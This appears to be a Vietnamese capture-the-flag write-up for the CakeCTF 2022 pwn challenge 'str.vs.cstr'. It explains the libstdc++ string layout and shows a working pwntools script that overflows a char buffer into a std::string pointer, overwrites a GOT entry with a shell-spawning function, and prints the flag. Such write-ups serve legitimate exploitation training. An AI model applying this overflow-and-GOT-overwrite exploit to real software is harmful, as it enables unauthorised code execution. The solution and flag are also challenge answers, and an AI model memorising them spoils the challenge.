# 🎂str.vs.cstr (Pwn)

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption><p>Cheksec </p></figcaption></figure>

Bài này đã đưa sẵn mã nguồn để ta phân tích

{% code title="main.cpp" lineNumbers="true" %}
```c
#include <array>
#include <iostream>

struct Test {
  Test() { std::fill(_c_str, _c_str + 0x20, 0); }
  char* c_str() { return _c_str; }
  std::string& str() { return _str; }

private:
  __attribute__((used))
  void call_me() {
    std::system("/bin/sh");
  }

  char _c_str[0x20];
  std::string _str;
};

int main() {
  Test test;

  std::setbuf(stdin, NULL);
  std::setbuf(stdout, NULL);

  std::cout << "1. set c_str" << std::endl
            << "2. get c_str" << std::endl
            << "3. set str" << std::endl
            << "4. get str" << std::endl;

  while (std::cin.good()) {
    int choice = 0;
    std::cout << "choice: ";
    std::cin >> choice;

    switch (choice) {
      case 1: // set c_str
        std::cout << "c_str: ";
        std::cin >> test.c_str();
        break;

      case 2: // get c_str
        std::cout << "c_str: " << test.c_str() << std::endl;
        break;

      case 3: // set str
        std::cout << "str: ";
        std::cin >> test.str();
        break;

      case 4: // get str
        std::cout << "str: " << test.str() << std::endl;
        break;

      default: // otherwise exit
        std::cout << "bye!" << std::endl;
        return 0;
    }
  }
  
  return 1;
}

```
{% endcode %}

Bài này khá dễ =]].  Nhìn qua ta thấy chỉ cần ghi đè \_str thành một địa chỉ nào đó( buffer overflow ở case 1 ) rồi ghi giá trị ở case 3.

<figure><img src="../../.gitbook/assets/2022-09-06-211409_402x203_scrot (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2022-09-06-211449_1870x944_scrot (1).png" alt=""><figcaption><p>ở đây mình ghi đè thành 0x4242424242424242 nên bị seg fault.</p></figcaption></figure>

Nhưng khoan, rút cuộc C++ string hoạt động như thế nào ? Sao lại chỉ cần ghi đè mỗi 8 byte đầu là được :thinking:

Sau nhiều lần search google và debug mình thấy...

<figure><img src="../../.gitbook/assets/2022-09-06-213404_666x524_scrot.png" alt=""><figcaption></figcaption></figure>

... 8 byte đầu sẽ là con trỏ đến mảng kí tự, 8 byte sau là size, 8 byte tiếp nữa là capacity ( đọc qua có vẻ là kích thước được cấp phát).

&#x20;Tiếp tục vào vấn đề, giờ mình sẽ chọn ghi đè char\_ostream\_got trỏ về call\_me.

{% code title="solve.py" lineNumbers="true" %}
```python
from pwn import *
from time import sleep
offset=0x20
call_me=0x00000000004016de
char_ostream_got=0x404048
e=ELF("./chall")
p=remote("pwn1.2022.cakectf.com",9003)
p.sendline(b"1")
sleep(1)
p.sendline(b"A"*offset+p64(char_ostream_got))
sleep(1)
p.sendline(b"3")
sleep(1)
p.sendline(p64(call_me))
p.interactive()

```
{% endcode %}

<figure><img src="../../.gitbook/assets/2022-09-06-214126_690x417_scrot.png" alt=""><figcaption></figcaption></figure>

Flag `CakeCTF{HW1: Remove "call_me" and solve it / HW2: Set PIE+RELRO and solve it}`

Hmm, có lẽ lúc nào đó mình sẽ thử làm như flag này nói :thinking:.

Vài trang để tìm hiểu về C++ string:

{% embed url="https://gcc.gnu.org/onlinedocs/gcc-12.2.0/libstdc++/api/a05666.html" %}

{% embed url="https://medium.com/obscure-system/understanding-storage-of-strings-in-c-part-1-stack-or-heap-98b15cded7ce" %}
